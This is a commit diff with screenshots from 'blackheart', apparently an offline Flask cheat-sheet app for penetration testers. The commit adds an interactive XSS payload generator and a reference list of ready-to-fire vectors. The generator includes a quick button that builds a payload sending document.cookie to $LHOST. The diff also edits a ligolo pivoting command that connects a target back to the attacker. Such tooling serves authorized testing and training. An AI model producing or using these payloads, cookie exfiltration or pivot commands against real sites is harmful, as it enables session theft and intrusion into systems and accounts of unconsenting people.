

Before and after one commit to ruder00t/blackheart, a Flask app: page /xss in a window 1280 px wide. Shown: the part 66-1918 px from the top of the page at 71% size. Run offline with Flask 3, Linux system fonts and the light colour scheme.

Commit message:
ligolo fix, XSS update

```diff
--- a/app/modules/xss/__init__.py
+++ b/app/modules/xss/__init__.py
@@ -38,7 +38,7 @@ CARDS = [
 
 @bp.route("/xss")
 def index():
-    return render_template("cheat.html", active="xss",
+    return render_template("xss.html", active="xss",
                            title="Cross-site scripting", tag="exploitation",
                            intro="PoC payloads, exfiltration, and filter bypasses.",
                            cards=CARDS)
--- a/app/static/css/app.css
+++ b/app/static/css/app.css
@@ -67,6 +67,8 @@
     font-size:11px; color:var(--bone-faint);
   }
   .side .foot b{color:var(--bone-dim);font-weight:600}
+  .side .foot .ver{display:block;margin-top:6px;font-family:var(--mono);
+    font-size:10.5px;color:var(--red);letter-spacing:.02em}
 
   /* ---------- main ---------- */
   main{height:100vh;overflow-y:auto}
@@ -490,3 +492,21 @@ textarea.bigfield:focus{outline:2px solid var(--red);border-color:var(--red)}
 .termOverlay-msg p{margin:0;color:var(--bone-dim);line-height:1.6;font-size:13px}
 .termOverlay-msg code{background:#060608;border:1px solid var(--border-soft);border-radius:4px;
   padding:2px 6px;font-family:var(--mono)}
+
+/* --- XSS vector builder (xss tab) --- */
+.xssgen .row{display:flex;flex-wrap:wrap;gap:14px;align-items:flex-end;margin-bottom:12px}
+.xssgen select{min-width:160px}
+.xssgen .xgquick{display:flex;flex-wrap:wrap;gap:7px;align-items:center;margin:2px 0 14px}
+.xssgen .xgquick .lbl2{font-size:11px;color:var(--bone-faint)}
+.xssgen .xgstatus{font-family:var(--mono);font-size:12px;margin:6px 0 10px}
+.xssgen .xgstatus.ok{color:var(--bone-dim)}
+.xssgen .xgstatus.warn{color:var(--red)}
+.xssgen .xgworks{margin-top:10px;margin-bottom:0;font-size:12px;color:var(--bone-faint)}
+
+/* --- XSS vector reference (xss tab) --- */
+.xssref .xgref-head{display:flex;gap:12px;align-items:center;justify-content:space-between;flex-wrap:wrap;margin-bottom:2px}
+.xssref .xgref-head h3{margin:0}
+.xssref #xgFilter{flex:1 1 240px;max-width:340px}
+.xssref .xgcat-wrap{margin-top:6px}
+.xssref h4.xgcat{margin:18px 0 8px;font-size:11px;font-weight:600;color:var(--bone-faint);
+  text-transform:uppercase;letter-spacing:.05em}
--- /dev/null
+++ b/app/static/js/xss.js
@@ -0,0 +1,285 @@
+(function () {
+  "use strict";
+
+  var VOID = { img: 1, input: 1, source: 1, embed: 1, keygen: 1, br: 1,
+    hr: 1, area: 1, base: 1, col: 1, link: 1, meta: 1, param: 1, track: 1, wbr: 1 };
+
+  // g: 0 = auto-fire, 1 = CSS-animation trigger, 2 = needs interaction
+  var META = {
+    onload:              { g: 0, rec: "svg",     tags: "svg, body, iframe" },
+    onerror:             { g: 0, rec: "img",     h: { src: "x" }, tags: "img, video, audio, script, source" },
+    onfocus:             { g: 0, rec: "input",   h: { autofocus: true }, tags: "input, select, textarea, button, a" },
+    ontoggle:            { g: 0, rec: "details", h: { open: true }, tags: "details" },
+    onpageshow:          { g: 0, rec: "body",    tags: "body" },
+    onstart:             { g: 0, rec: "marquee", tags: "marquee" },
+    onanimationstart:    { g: 1, rec: "div", css: 1, tags: "any styleable element" },
+    onanimationend:      { g: 1, rec: "div", css: 1, tags: "any styleable element" },
+    onanimationiteration:{ g: 1, rec: "div", css: 1, tags: "any styleable element" },
+    onclick:             { g: 2, rec: "button", act: "a click", tags: "almost any visible element" },
+    ondblclick:          { g: 2, rec: "button", act: "a double-click", tags: "almost any element" },
+    onauxclick:          { g: 2, rec: "a", h: { href: "#" }, act: "a middle-click", tags: "a, button" },
+    onmouseover:         { g: 2, rec: "a", h: { href: "#" }, act: "hovering the element", tags: "almost any element" },
+    onmouseenter:        { g: 2, rec: "div", act: "hovering the element", tags: "almost any element" },
+    onmousemove:         { g: 2, rec: "div", act: "moving the mouse over it", tags: "almost any element" },
+    onpointerover:       { g: 2, rec: "div", act: "hovering / tapping it", tags: "almost any element" },
+    onpointerdown:       { g: 2, rec: "div", act: "a tap / click", tags: "almost any element" },
+    onkeydown:           { g: 2, rec: "input", h: { autofocus: true, tabindex: "1" }, act: "a keypress (element is auto-focused)", tags: "input, textarea, body" },
+    onkeyup:             { g: 2, rec: "input", h: { autofocus: true, tabindex: "1" }, act: "a keypress (element is auto-focused)", tags: "input, textarea, body" },
+    oninput:             { g: 2, rec: "input", act: "typing in the field", tags: "input, textarea" },
+    onchange:            { g: 2, rec: "input", act: "changing the field", tags: "input, select, textarea" },
+    onwheel:             { g: 2, rec: "body", act: "scrolling the wheel over it", tags: "body, div" },
+    onscroll:            { g: 2, rec: "body", act: "scrolling", tags: "body, div (overflow)" },
+    oncopy:              { g: 2, rec: "body", act: "copying page text", tags: "body" },
+    onpaste:             { g: 2, rec: "body", act: "pasting into a field", tags: "body, input" },
+    ondrag:              { g: 2, rec: "a", h: { draggable: "true" }, act: "dragging the element", tags: "a, img, div" },
+    oncontextmenu:       { g: 2, rec: "div", act: "a right-click", tags: "almost any element" }
+  };
+
+  var GROUPS = [
+    ["Auto-fires (no interaction)", ["onload", "onerror", "onfocus", "ontoggle", "onpageshow", "onstart"]],
+    ["CSS trigger (fires on render)", ["onanimationstart", "onanimationend", "onanimationiteration"]],
+    ["Needs interaction", ["onclick", "ondblclick", "onauxclick", "onmouseover",
+      "onmouseenter", "onmousemove", "onpointerover", "onpointerdown", "onkeydown",
+      "onkeyup", "oninput", "onchange", "onwheel", "onscroll", "oncopy", "onpaste",
+      "ondrag", "oncontextmenu"]]
+  ];
+
+  var EXPAND = [
+    ["Auto-fires - no interaction", [
+      ["onload", ["svg", "body", "iframe"]],
+      ["onerror", ["img", "video", "audio", "script"]],
+      ["onfocus", ["input", "select", "textarea", "button", "keygen"]],
+      ["ontoggle", ["details"]],
+      ["onpageshow", ["body"]],
+      ["onstart", ["marquee"]]
+    ]],
+    ["CSS animation - fires on render", [
+      ["onanimationstart", ["xss", "div", "a", "marquee"]],
+      ["onanimationend", ["xss", "div"]],
+      ["onanimationiteration", ["xss", "div"]]
+    ]],
+    ["Needs interaction", [
+      ["onclick", ["a", "button", "div", "p", "svg"]],
+      ["ondblclick", ["div", "button"]],
+      ["onmouseover", ["a", "div", "svg", "body"]],
+      ["onmouseenter", ["div", "a"]],
+      ["onmousemove", ["div", "body"]],
+      ["onpointerover", ["div", "a"]],
+      ["onpointerdown", ["div", "a"]],
+      ["onkeydown", ["input", "textarea"]],
+      ["onkeyup", ["input", "textarea"]],
+      ["oninput", ["input", "textarea"]],
+      ["onchange", ["input", "select", "textarea"]],
+      ["onwheel", ["body", "div"]],
+      ["onscroll", ["body", "div"]],
+      ["oncopy", ["body"]],
+      ["onpaste", ["body", "input"]],
+      ["oncontextmenu", ["div", "body"]],
+      ["ondrag", ["a", "div"]]
+    ]]
+  ];
+
+  var SPECIAL = [
+    ["<svg><script>alert(document.domain)</script></svg>", "svg > script (script inside svg)"],
+    ["<svg><animate onbegin=alert(document.domain) attributeName=x dur=1s>", "svg <animate> onbegin"],
+    ["<svg><set onbegin=alert(document.domain) attributeName=x to=1 dur=1s>", "svg <set> onbegin"],
+    ["<a href=javascript:alert(document.domain)>click</a>", "javascript: URI in href"],
+    ["<iframe src=javascript:alert(document.domain)>", "javascript: URI in iframe src"],
+    ["<iframe srcdoc=\"<script>alert(document.domain)</script>\">", "iframe srcdoc (HTML injection)"],
+    ["<object data=javascript:alert(document.domain)>", "object data javascript:"],
+    ["<form action=javascript:alert(document.domain)><button>submit</button></form>", "form action javascript:"],
+    ["<button formaction=javascript:alert(document.domain)>submit</button>", "button formaction javascript:"],
+    ["<input type=image formaction=javascript:alert(document.domain) src=x>", "input image formaction"],
+    ["<base href=javascript:alert(document.domain)//>", "base href javascript:"],
+    ["<meta http-equiv=refresh content=\"0;url=javascript:alert(document.domain)\">", "meta refresh javascript:"],
+    ["<iframe src=\"data:text/html,<script>alert(document.domain)</script>\">", "iframe data: URI (HTML)"],
+    ["<script src=data:,alert(document.domain)></script>", "script data: URI src"]
+  ];
+
+  var CTX = [
+    ["", "none (clean HTML sink)"],
+    ['">', 'break out of "double-quoted" attribute'],
+    ["'>", "break out of 'single-quoted' attribute"],
+    [">", "break out of unquoted attribute"],
+    ["</textarea>", "close a <textarea> block"],
+    ["</title>", "close a <title> block"],
+    ["</style>", "close a <style> block"],
+    ["</script>", "close a <script> block"],
+    ["</noscript>", "close a <noscript> block"],
+    ["-->", "close an HTML <!-- comment -->"]
+  ];
+
+  var tagSel = document.getElementById("xgTag");
+  var evSel = document.getElementById("xgEvent");
+  var plIn = document.getElementById("xgPayload");
+  var ctxSel = document.getElementById("xgCtx");
+  var helper = document.getElementById("xgHelper");
+  var out = document.getElementById("xgOut");
+  var statusEl = document.getElementById("xgStatus");
+  var works = document.getElementById("xgWorks");
+  var ref = document.getElementById("xgRef");
+  if (!tagSel || !evSel) return;
+
+  var TAGS = ["svg", "img", "body", "iframe", "input", "video", "audio",
+    "source", "details", "select", "textarea", "button", "a", "marquee",
+    "div", "p", "object", "embed", "math", "style", "xss", "keygen",
+    "canvas", "form", "table"];
+
+  function opt(val, label) {
+    var o = document.createElement("option");
+    o.value = val; o.textContent = label;
+    return o;
+  }
+
+  TAGS.forEach(function (t) { tagSel.appendChild(opt(t, t)); });
+  GROUPS.forEach(function (gr) {
+    var og = document.createElement("optgroup");
+    og.label = gr[0];
+    gr[1].forEach(function (ev) { og.appendChild(opt(ev, ev)); });
+    evSel.appendChild(og);
+  });
+  CTX.forEach(function (c) { ctxSel.appendChild(opt(c[0], c[1])); });
+
+  evSel.value = "onload";
+  tagSel.value = "svg";
+
+  function isVoid(t) { return !!VOID[t]; }
+
+  function q(p) {
+    if (/[\s>"'`=]/.test(p)) {
+      if (p.indexOf('"') < 0) return '"' + p + '"';
+      if (p.indexOf("'") < 0) return "'" + p + "'";
+    }
+    return p;
+  }
+
+  function makeVector(tag, ev, pl, ctx, helperOn) {
+    var m = META[ev] || { g: 2 };
+    var prefix = ctx || "";
+    var attrs = [];
+    if (helperOn && m.h) {
+      Object.keys(m.h).forEach(function (k) {
+        var v = m.h[k];
+        attrs.push(v === true ? k : k + "=" + v);
+      });
+    }
+    var attrStr = attrs.length ? " " + attrs.join(" ") : "";
+    var evPart = " " + ev + "=" + q(pl);
+
+    if (m.css) {
+      var openA = "<" + tag + attrStr + ' style="animation-name:x"' + evPart + ">";
+      return prefix + "<style>@keyframes x{}</style>" + openA + (isVoid(tag) ? "" : "</" + tag + ">");
+    }
+    var openB = "<" + tag + attrStr + evPart + ">";
+    if (isVoid(tag)) return prefix + openB;
+    var inner = (m.g === 2) ? "XSS" : "";
+    return prefix + openB + inner + "</" + tag + ">";
+  }
+
+  function build() {
+    var tag = tagSel.value;
+    var ev = evSel.value;
+    var pl = (plIn.value || "").trim() || "alert(document.domain)";
+    var m = META[ev] || { g: 2, tags: "" };
+    var vec = makeVector(tag, ev, pl, ctxSel.value, helper.checked);
+
+    out.innerHTML = "";
+    var d = document.createElement("div");
+    d.className = "cmd plain";
+    d.dataset.tpl = vec;
+    out.appendChild(d);
+    if (window.TN) window.TN.renderTpls(out);
+
+    if (m.g === 0) {
+      statusEl.textContent = "Fires automatically on load.";
+      statusEl.className = "xgstatus ok";
+    } else if (m.g === 1) {
+      statusEl.textContent = "Fires on render via CSS animation (no interaction).";
+      statusEl.className = "xgstatus ok";
+    } else {
+      statusEl.textContent = "Requires " + (m.act || "user interaction") + ".";
+      statusEl.className = "xgstatus warn";
+    }
+    works.textContent = m.tags ? ("event also works on: " + m.tags) : "";
+  }
+
+  function addEntry(parent, vec, label) {
+    var d = document.createElement("div");
+    d.className = "cmd plain";
+    d.dataset.tpl = vec;
+    d.dataset.search = (label + " " + vec).toLowerCase();
+    var s = document.createElement("span");
+    s.className = "lbl";
+    s.textContent = label;
+    d.appendChild(s);
+    parent.appendChild(d);
+  }
+
+  function renderRef() {
+    if (!ref) return;
+    var DP = "alert(document.domain)";
+    EXPAND.forEach(function (group) {
+      var wrap = document.createElement("div");
+      wrap.className = "xgcat-wrap";
+      var h = document.createElement("h4");
+      h.className = "xgcat";
+      h.textContent = group[0];
+      wrap.appendChild(h);
+      group[1].forEach(function (pair) {
+        var ev = pair[0];
+        pair[1].forEach(function (tag) {
+          addEntry(wrap, makeVector(tag, ev, DP, "", true), ev + "  <" + tag + ">");
+        });
+      });
+      ref.appendChild(wrap);
+    });
+    var sw = document.createElement("div");
+    sw.className = "xgcat-wrap";
+    var sh = document.createElement("h4");
+    sh.className = "xgcat";
+    sh.textContent = "URI / nested / attribute sinks";
+    sw.appendChild(sh);
+    SPECIAL.forEach(function (p) { addEntry(sw, p[0], p[1]); });
+    ref.appendChild(sw);
+
+    if (window.TN) window.TN.renderTpls(ref);
+  }
+
+  function wireFilter() {
+    var f = document.getElementById("xgFilter");
+    if (!f || !ref) return;
+    f.addEventListener("input", function () {
+      var qy = f.value.trim().toLowerCase();
+      ref.querySelectorAll(".xgcat-wrap").forEach(function (w) {
+        var any = false;
+        w.querySelectorAll(".cmd").forEach(function (c) {
+          var show = !qy || (c.dataset.search || "").indexOf(qy) > -1;
+          c.hidden = !show;
+          if (show) any = true;
+        });
+        w.hidden = !any;
+      });
+    });
+  }
+
+  evSel.addEventListener("change", function () {
+    var m = META[evSel.value];
+    if (m && m.rec) tagSel.value = m.rec;
+    build();
+  });
+  tagSel.addEventListener("change", build);
+  ctxSel.addEventListener("change", build);
+  helper.addEventListener("change", build);
+  plIn.addEventListener("input", build);
+  document.querySelectorAll(".xssgen .tok[data-pl]").forEach(function (b) {
+    b.addEventListener("click", function () { plIn.value = b.dataset.pl; build(); });
+  });
+  document.addEventListener("tn:vars", function () {
+    if (out.firstChild) build();
+    if (ref && window.TN) window.TN.renderTpls(ref);
+  });
+
+  build();
+  renderRef();
+  wireFilter();
+})();
--- a/app/templates/base.html
+++ b/app/templates/base.html
@@ -40,7 +40,7 @@
     </div>
     {% endfor %}
   </nav>
-  <div class="foot">running on <b>127.0.0.1:8090</b><br>fully offline</div>
+  <div class="foot">running on <b>127.0.0.1:8090</b><br>fully offline<span class="ver">Blackheart-V1.01</span></div>
 </aside>
 
 <main>
--- a/app/templates/pivot.html
+++ b/app/templates/pivot.html
@@ -12,7 +12,7 @@
     <div class="cmd" data-tpl="sudo ip tuntap add user root mode tun ligolo"></div>
     <div class="cmd" data-tpl="sudo ip link set ligolo up"></div>
     <div class="cmd" data-tpl="sudo ./proxy -selfcert"></div>
-    <div class="cmd" data-tpl="./agent -connect {% raw %}{{LHOST}}{% endraw %}:11601 -ignore-cert &"><span class="lbl">on target</span></div>
+    <div class="cmd" data-tpl="./agent -connect $LHOST:11601 -ignore-cert &"><span class="lbl">on target</span></div>
     <div class="cmd" data-tpl="session"></div>
     <div class="cmd" data-tpl="start"></div>
     <div class="cmd" data-tpl="sudo ip route add 172.16.1.0/24 dev ligolo"><span class="lbl">add route</span></div>
--- /dev/null
+++ b/app/templates/xss.html
@@ -0,0 +1,74 @@
+{% extends "base.html" %}
+{% block content %}
+<section class="pane">
+  <div class="pane-head">
+    <h2>{{ title }}{% if tag %} <span class="tag">{{ tag }}</span>{% endif %}</h2>
+    {% if intro %}<p>{{ intro }}</p>{% endif %}
+  </div>
+
+  <!-- interactive vector builder (recreation of the PortSwigger cheat-sheet tool) -->
+  <div class="card xssgen">
+    <h3>XSS CheatSheet by Portswigger</h3>
+    <p class="hint">Build a working vector: pick a <b>tag</b> and an <b>event handler</b>, set the JS to run, and optionally break out of the surrounding context. <code>$LHOST</code>/<code>$RHOST</code> fill in live. The generated line has copy &amp; send-to-terminal, like every other command.</p>
+
+    <div class="row">
+      <div class="field">
+        <label>Tag</label>
+        <select id="xgTag"></select>
+      </div>
+      <div class="field">
+        <label>Event handler</label>
+        <select id="xgEvent"></select>
+      </div>
+      <div class="field" style="flex:1 1 260px">
+        <label>JavaScript to run</label>
+        <input type="text" id="xgPayload" value="alert(document.domain)" spellcheck="false" autocomplete="off">
+      </div>
+    </div>
+
+    <div class="xgquick">
+      <span class="lbl2">quick JS:</span>
+      <button type="button" class="tok" data-pl="alert(document.domain)">alert(document.domain)</button>
+      <button type="button" class="tok" data-pl="alert(document.cookie)">alert(document.cookie)</button>
+      <button type="button" class="tok" data-pl="print()">print()</button>
+      <button type="button" class="tok" data-pl="fetch('http://$LHOST/?c='+document.cookie)">exfil cookie &rarr; $LHOST</button>
+    </div>
+
+    <div class="row">
+      <div class="field">
+        <label>Context break-out</label>
+        <select id="xgCtx"></select>
+      </div>
+      <label class="chip" id="xgHelperChip"><input type="checkbox" id="xgHelper" checked><span class="box"></span>auto-fire helpers</label>
+    </div>
+
+    <div class="xgstatus" id="xgStatus"></div>
+    <div id="xgOut"></div>
+    <p class="hint xgworks" id="xgWorks"></p>
+  </div>
+
+  <!-- full vector reference, generated from the same engine -->
+  <div class="card xssref">
+    <div class="xgref-head">
+      <h3>Vector reference</h3>
+      <input type="text" id="xgFilter" placeholder="filter vectors... (tag, event, keyword)" spellcheck="false" autocomplete="off">
+    </div>
+    <p class="hint">Ready-to-fire vectors grouped by how they trigger. Every line copies / sends and fills <code>$LHOST</code> live.</p>
+    <div id="xgRef"></div>
+  </div>
+
+  {% for card in cards %}
+  <div class="card">
+    {% if card.title %}<h3>{{ card.title }}</h3>{% endif %}
+    {% if card.hint %}<p class="hint">{{ card.hint }}</p>{% endif %}
+    {% for b in card.blocks %}
+    <div class="cmd{% if b.plain %} plain{% endif %}" data-tpl="{{ b.tpl }}">{% if b.lbl %}<span class="lbl">{{ b.lbl }}</span>{% endif %}</div>
+    {% endfor %}
+  </div>
+  {% endfor %}
+</section>
+{% endblock %}
+
+{% block scripts %}
+<script src="{{ url_for('static', filename='js/xss.js') }}"></script>
+{% endblock %}
```
Also changed, not shown: README.md, 3 other files.
